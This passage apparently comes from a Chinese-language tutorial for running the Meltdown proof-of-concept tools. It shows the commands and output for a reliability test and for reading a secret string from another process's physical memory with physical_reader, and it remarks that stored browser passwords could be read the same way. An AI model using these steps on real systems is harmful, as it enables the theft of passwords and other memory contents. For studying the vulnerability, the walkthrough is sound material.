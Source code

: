 ```bash
[+] Direct physical map offset: 0xffff880000000000
```

关闭此功能的跳过这个步骤。（如果使用这个功能的话请复制输出的十六进制地址，在后续步骤中会用到，在本文中爱意篇幅不做详细介绍，请读者自行研究项目README）

## 可读性测试

运行reliability：

```bash
$ sudo taskset 0x1 ./reliability （0xffff880000000000）
```

**这里的括号内容表示，如果我们的Linux已经关闭kalsr那么我们就可以省略括号中这个参数,下文相同** 如果可以看到类似输出，也就是准确性大概大于百分之90，那么说明我们可以利用这个漏洞进行测试了：

```bash
[-] Success rate: 99.93% (read 1354 values)
```

## 读取内存测试

这部分是这个测试项目的核心，原理是运行一个存储着若干密码的程序，并返回其存储密码的内存地址。然后再利用这个漏洞非法访问这个内存地址获得密码的明文。这也就意味着我们的密码输入在这个漏洞之下变得透明，甚至黑客可以通过这个漏洞读取存储在chrome浏览器中的网站密码： 运行密码小程序：

```bash
$ sudo ./secret
```

我们会得到如下输出：

```bash
[+] Secret: If you can read this, this is really bad
[+] Physical address of secret: 0x390fff400
[+] Exit with Ctrl+C if you are done reading the secret
```

这时候我们要记下**0x390fff400**这个地址，不要停止程序，打开另一个终端：

```bash
$ taskset 0x1 ./physical_reader 0x390fff400 (0xffff880000000000)
```

不出意外我们会看到如下结果，下方输出的字符串来自于secret小程序中随机选择的一个密码串：

```bash
[+] Physical address       : 0x390fff400
[+] Physical offset        : 0xffff880000000000
[+] Reading virtual address: 0xffff880390fff400

If you can read this, this is really bad
```

https://v.qq.com/x/page/n1331oskfxn.html?start=3

## 转存内存

程序可以打印从任意位置开始的内存信息：
